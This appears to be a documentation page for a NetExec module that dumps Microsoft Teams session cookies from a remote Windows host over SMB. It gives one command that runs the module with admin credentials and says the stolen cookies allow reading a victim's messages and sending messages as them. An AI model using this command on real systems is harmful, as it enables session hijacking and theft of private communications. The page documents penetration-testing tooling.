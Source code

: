 # Steal Microsoft Teams Cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New NetExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec)'s contribution.&#x20;

You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M teams_localdb
```
